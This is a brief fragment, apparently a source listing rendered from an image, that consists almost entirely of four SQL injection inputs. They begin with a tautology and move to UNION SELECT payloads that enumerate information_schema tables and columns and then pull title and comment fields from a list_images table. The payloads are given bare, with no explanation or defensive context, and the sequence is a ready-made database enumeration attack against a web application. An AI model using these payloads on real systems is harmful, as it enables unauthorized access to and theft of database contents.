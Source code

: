 <p>1 or true<br>
2 or true union select table_name, table_type from information_schema.tables<br>
3 or true union select table_name, column_name from information_schema.columns<br>
4 or true union select title, comment from list_images
</p>
